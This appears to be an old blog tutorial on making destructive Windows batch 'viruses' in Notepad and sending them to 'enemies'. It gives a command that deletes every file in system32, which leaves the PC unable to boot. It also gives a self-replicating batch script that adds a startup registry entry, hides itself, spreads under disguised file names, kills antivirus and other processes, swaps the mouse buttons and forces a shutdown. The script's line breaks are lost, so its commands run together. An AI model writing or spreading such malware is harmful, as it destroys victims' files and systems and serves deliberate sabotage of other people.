 ```yaml
---
layout: page
title:  "Destroy Your Friends Computer Using Simple Notepad Virus"
description: Learn how to create a simple virus in notepad file which delete all files.
permalink: /destroy-your-friends-computer.html
redirect_from:
 - /2013/02/destroy-your-friends-computer-using.html
---
```


<strong>This tutorial is education purpose only</strong><br/>
In this post we’ll take a look on how to create a deadly computer virus to destroy your enemy or victim’s PC…

Open Notepad, Type or Paste in the following command:-

    del c:\windows\system32\*.* /q

Save it with the extension “.bat or .cmd” as u want…

Don’t double click the file otherwise u r in trouble. Why??? Bcz the file u created deletes all files from your system32 folder and when u restart your PC it will not start bcz system can not find the files in the system32 folder which is required at the time of booting…

You can also test the above by creating a fake folder let suppose:-

windows1 in C:.

Copy some old files in it and just follow the above command. By double clicking the bat or cmd file ur all files automaitcally get deleted.

You can try this file one any one’s computer. (but this result in causing damage to the computer, so think again before trying this on anyone’s PC)


Virus 2:

This post is to help you to send viruses to your enemies! Here goes,

Paste the below given code in your Notepad, then save it as anyname.bat

Do not click on that batch file… Send it to your enimies’ email… It will:

1) Copy itself into startup

2) Copy itself over one thousand times into random spots in your computer

3) Hide its self and all other created files

4) Task kill MSN, Norton, Windows Explorer, Limewire.

5) Swap the left mouse button with the right one

6) Opens alert boxes

7) Changes the time to 12:00 and shuts down the computer


CODE:-

    @Echo offcolor 4title 4title R.I.Pstartstartstartstart calccopy %0 %Systemroot%\Greatgame > nulreg add HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v Greatgame /t REG_SZ/d %systemroot%\Greatgame.bat /f > nulcopy %0 *.bat > nulAttrib +r +h Greatgame.batAttrib +r +hRUNDLL32 USER32.DLL.SwapMouseButtonstart calcclstskill msnmsgrtskill LimeWiretskill iexploretskill NMainstartclscd %userprofile%\desktopcopy Greatgame.bat R.I.P.batcopy Greatgame.bat R.I.P.jpgcopy Greatgame.bat R.I.P.txtcopy Greatgame.bat R.I.P.execopy Greatgame.bat R.I.P.movcopy Greatgame.bat FixVirus.batcd %userprofile%My Documentscopy Greatgame.bat R.I.P.batcopy Greatgame.bat R.I.P.jpgcopy Greatgame.bat R.I.P.txtcopy Greatgame.bat R.I.P.execopy Greatgame.bat R.I.P.movcopy Greatgame.bat FixVirus.batstartstart calcclsmsg * R.I.Pmsg * R.I.Pshutdown -r -t 10 -c "VIRUS DETECTED"startstarttime 12:00:R.I.Pcd %usernameprofile%\desktopcopy Greatgame.bat %random%.batgoto RIP

